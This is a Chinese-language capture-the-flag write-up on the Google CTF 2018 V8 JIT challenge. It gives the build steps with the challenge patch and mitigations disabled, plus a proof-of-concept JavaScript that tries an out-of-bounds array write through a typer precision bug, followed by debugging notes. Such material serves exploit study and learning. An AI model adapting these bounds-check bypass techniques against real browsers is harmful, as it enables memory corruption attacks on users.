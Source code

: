 

**环境搭建**

[patch下载](https://github.com/no1rr/Browser/tree/master/Google_ctf_2018_jit/0001-v6.4.388.38.patch.patch)

```bash
git checkout 6.4.388.38 
gclient sync 
git apply ../../../google_ctf_2018_jit/0001-v6.4.388.38.patch.patch
tools/dev/v8gen.py x64.debug
# 允许优化checkbounds
echo "v8_untrusted_code_mitigations = false" >> out.gn/x64.debug/args.gn
ninja -C out.gn/x64.debug
```



**漏洞利用**

先试下之前的poc

```javascript
var arr = [1.1, 2.2, 3.3, 4.4];//
function f(x)
{   arr = [1.1, 2.2, 3.3, 4.4];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;
    t -= 9007199254740989;  
    t -= 1;                 
    t *= 2;                 
    t -= 1;                 
    arr[t] = 1.0864618449742194e-311;	//int2float(0x200);
    console.log('arr[t]:',arr[t]);
}
f(1);
%OptimizeFunctionOnNextCall(f);
f(1);
%SystemBreak();
```

![image-20220212150151517](https://s2.loli.net/2022/02/12/QKUijYm8lHnLyp9.png)

发现无法越界读取，查看Turbolizer发现在SimplifiedLowing阶段CheckBounds没有被优化

![image-20220212151010604](https://s2.loli.net/2022/02/12/QlDAtS2GqMXNC9c.png)

又去看了源码发现有CheckBounds优化的代码

![image-20220212151220504](https://s2.loli.net/2022/02/12/vm3WCAbEK1OwgRe.png)

于是gdb下断点

```bash
pwndbg> b src/compiler/simplified-lowering.cc:2420
```
